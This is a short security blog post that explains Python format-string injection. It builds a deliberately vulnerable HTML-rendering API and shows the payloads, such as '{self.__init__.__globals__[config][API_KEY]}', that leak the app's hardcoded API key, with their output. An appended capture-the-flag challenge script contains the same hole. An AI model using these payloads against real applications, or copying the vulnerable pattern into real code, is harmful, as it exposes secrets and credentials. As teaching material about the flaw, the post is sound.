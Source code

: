 Python format string vulnerabilities
 March 24, 2021  3-minute read
 research • poc
 python • format • string • exploit
Table of contents :
What are Python’s format strings
Example of a vulnerable API
Exploiting format strings
Additional references
What are Python’s format strings
The .format() string method was introduced in Python 3 was later also added to Python 2.7. Let’s see an example :

>>> print("I like {} and {}".format("Python","Pizza"))
"I like Python and Pizza"
Even though python format strings can be very useful in scripts, they should be used with caution as they can be prone to vulnerabilities. We will explore this more in depth in the Exploiting format strings part.

Example of a vulnerable API
Here is an example of an API where a user can render user data to HTML using it’s own template and format strings :

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

config = {
    'API_KEY' : "212817d980b9a03add91e5814d02"
}

class API(object):
    def __init__(self, apikey):
        self.apikey = apikey

    def renderHTML(self, templateHTML, title, text):
        return (templateHTML.format(title=title, text=text))

if __name__ == '__main__':
    a = API(config[API_KEY])

    templateHTML = """<!DOCTYPE html>
<html lang="en" dir="ltr">
    <head>
        <meta charset="utf-8">
        <title>{title}</title>
    </head>
    <body>
        <p>{text}</p>
    </body>
</html>"""

    text = "This is text !"
    print(a.renderHTML(templateHTML, "Vuln web render App", text))
( Download source )

When the user uses this API to render data to HTML with legitimate templates, it would create this :

<html lang="en" dir="ltr">
    <head>
        <meta charset="utf-8">
        <title>Vuln web render App</title>
    </head>
    <body>
        <p>This is text !</p>
    </body>
</html>
But what would happen if a malicious user wants to mess up with the format string placeholders inside the template ? We’ll see this in the next section.

Exploiting format strings
We will try to inject payloads int format string placeholders of the template. I made a simple script taking arguments and executing API’s render function :

Usage :

$ ./sandbox.py
Usage : python3 ./sandbox.py TEMPLATE CONTENT
Source code :

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys

config = {
    'API_KEY' : "212817d980b9a03add91e5814d02"
}

class API(object):
    def __init__(self, apikey):
        self.apikey = apikey

    def renderHTML(self, templateHTML, title, text):
        return (templateHTML.format(self=self, title=title, text=text))


if __name__ == '__main__':
    if len(sys.argv) != 3:
        print("Usage : python3 "+sys.argv[0]+" TEMPLATE CONTENT")
    else :
        a = API(config['API_KEY'])
        print(a.renderHTML(sys.argv[1], "Vuln web render App", sys.argv[2]))
( Download source )
```
Let’s try this app with a legitimate example :

$ ./test.py "<p>{text}</p>" "Wow such string"
<p>Wow such string</p>
But format string are great in python ! You can access object properties directly in the format string. In the case of a class, this can be really useful to access a specific value in the class. For example the format string {person.username} would retreive the field username of the following “Person” class :

```
class Person(object):
    def __init__(self, username):
        super(Person, self).__init__()
        self.username = username
```

In our case, we can exploit this to access other attributes, such as __init__ :

$ ./sandbox.py "<p>{text.__init__}</p>" "Wow such string"
<p><method-wrapper '__init__' of str object at 0x7f8f10a3b9f0></p>
 
But we can also use this to get the script global context, using __globals__ after __init__ :
 
```
$ ./sandbox.py "<p>{self.__init__.__globals__}</p>" "Wow such string"
<p>{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f1385ac5f40>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': './sandbox.py', '__cached__': None, 'sys': <module 'sys' (built-in)>, 'config': {'API_KEY': '212817d980b9a03add91e5814d02'}, 'API': <class '__main__.API'>, 'a': <__main__.API object at 0x7f1385b31490>}</p>
 ```
 
 
Continuing like this we can access the API_KEY :

$ ./sandbox.py "<p>{self.__init__.__globals__[config][API_KEY]}</p>" "Wow such string"
<p>212817d980b9a03add91e5814d02</p
Additional references
https://docs.python.org/3/library/functions.html#format
Lots of python format string examples : https://pyformat.info/
 
########
 
 CHAL
 
~~~ 
#!/usr/bin/env python3
import secrets
import sys

SECRET = secrets.token_hex()

class Sandbox:

    def ask_age(self):
        self.age = input("How old are you ? ")
        self.width = input("How wide do you want the nice box to be ? ")

    def ask_secret(self):
        if input("What is the secret ? ") == SECRET:
            print("You found the secret ! I thought this was impossible.")
            sys.exit(0)
        else:
            print("Wrong secret")

    def run(self):
        for _ in range(100):
            self.ask_age()
            to_format = f"""
Printing a {self.width}-character wide box:
[Age: {{self.age:{self.width}}} ]"""
            print(to_format.format(self=self))
            self.ask_secret()
        sys.exit(1)

Sandbox().run()
```
